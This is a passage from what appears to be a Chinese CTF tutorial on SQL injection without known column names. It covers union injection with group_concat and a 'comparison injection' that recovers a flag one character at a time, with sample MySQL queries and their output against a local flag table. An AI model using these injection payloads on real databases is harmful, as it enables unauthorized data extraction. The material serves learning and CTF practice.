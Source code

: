 使用union将目的表中的数据进行合并（此时表名还是a, b, c，详见刚开始的分析）

where 0表示第一个表中不选择任何数据 

总体来说，使用的还是union注入的思路，只是这里将其中的一个列换成我们要填入的payload即可

注意这里需要用group_concat将`` `2` ``包裹，因为这一个无列名的payload会返回多行数据，而我们这里只能返回一个数据，所以可以使用group_concat将多行数据都连接起来，那么最后返回的也就是被我命名为2的列的数据了

### 比较注入

在mysql中两个select查询的比较，是 **按位** 比较的，即先比第一位，如果相等则比第二位，以此类推

在某一位上，如果前者的ASCII大，不管总长度如何，ASCII大的则大，这和c语言的strcmp()函数原理一样，举几个例子：

* a < flag{xxx}
* fla < flag{xxx}
* g > flag{xxx}
* flah > flag{xxx}

在这样的按位比较过程中，因为在里层的for()循环，字典顺序是从ASCII码小到大来枚举并比较的，假设正确值为b，那么字典跑到b的时候b=b不满足payload的大于号，只能继续下一轮循环，c>b此时满足了，题目返回真，这个时候就需要记录flag的值了，但是此时这一位的char是c，而真正的flag的这一位应该是b才对，所以flag += chr(char-1)，这就是为什么在还原数据的时候要往前偏移一位的原因

下面来看几个具体的比较

表flag的数据
``` sql
mysql> select * from flag;
+----+-----------+
| id | flag      |
+----+-----------+
|  1 | flag{xxx} |
+----+-----------+
1 row in set (0.00 sec)
```
这里使用 **\*** 代替列名进行注入
``` sql
mysql> select ((select 1,'a') > (select * from flag limit 1));
+-------------------------------------------------+
| ((select 1,'a') > (select * from flag limit 1)) |
+-------------------------------------------------+
|                                               0 |
+-------------------------------------------------+
1 row in set (0.00 sec)
```
因为ascii(a)是小于ascii(f)的，所以返回0

``` sql
mysql> select ((select 1,'G') > (select * from flag limit 1));
+-------------------------------------------------+
| ((select 1,'G') > (select * from flag limit 1)) |
+-------------------------------------------------+
|                                               1 |
+-------------------------------------------------+
1 row in set (0.00 sec)
```
但是在这个情况下，明明ascii(G)是小于ascii(f)，为什么会返回1呢

